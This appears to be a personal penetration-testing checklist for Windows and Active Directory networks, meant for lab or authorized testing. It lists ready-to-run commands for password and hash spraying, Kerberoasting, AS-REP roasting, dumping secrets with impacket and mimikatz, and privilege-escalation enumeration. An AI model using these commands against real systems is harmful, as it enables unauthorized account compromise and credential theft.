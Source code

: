 # Penetration Test Checklist



## Unauthenticated Recon - Domain

* [ ] [Create a target list](../../active-directory/password-spraying/creating-a-target-user-list.md)



***

## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares

## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

***

## Harvested a New Credential&#x20;

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt -local-auth
  </strong></code></pre>

### Manual Spray (if above didn't recover anything).

* ```shell-session
  $ proxychains evil-winrm -i 10.10.93.154 -u Administrator -p "Passwords"
  ```
* ```shell-session
  $ proxychains xfreerdp /v:10.10.93.154 /u:Administrator /p:password
  ```



***

## Harvested Domain Credential

### Kerbrute

* ```shell-session
  $ proxychains kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
  ```

### Kerberoast

* ```shell-session
  $ proxychains impacket-GetUserSPNs -request -dc-ip 10.10.113.146 corp.com/web_svc
  ```

### ASREP Roast

* ```shell-session
  $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
  ```

***

## Harvest new Hash

* [ ] Check with crackstation
* ```shell-session
  $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
  ```

***

## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

***

## Popped a new Shell

### Manual Enumeration

* [ ] [Check **ALL** privileges](../windows-privilege-escalation/escalating-privilege.md#insecure-privileges) "whoami /priv" for potential exploits
* [ ] Check for sensitive files
* [ ] Check for potential binary hijacking
* [ ] Check for scheduled tasks / services running under other users.



### Domain Connected User

#### Check ACL's/ACE's

* [ ] bloodhound / sharphound
* [ ] powerview

### PWNED Shell?- Dump Secrets!

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
  </strong></code></pre>

***

## Privilege Escalation - Windows

### Automated Enumeration

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\winPEASx64.exe
  </strong></code></pre>
* ```powershell
  PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  ```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

### Manual Enumeration

* ```
  systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Network Card(s)" /C:"Hotfix(s)"
  ```
* ```
  whoami /priv
  ```
* ```
  net user <user>
  ```
* ```
  net localgroup administrators
  ```
* ```
  cmd.exe /c dir /a C:\
  ```
* ```
  ls "program files"
  ```
* ```
  netstat -nao
  ```
* ```
  .\SharpHound -c All --domain medtech.com --zipfilename MEDTECH.zip
  ```

***

## Lateral Movement

* [ ] bloodhound / sharphound (Shortest path to high value targets)
* [ ] mimikatz
* [ ] netexec spray passwords & hashes
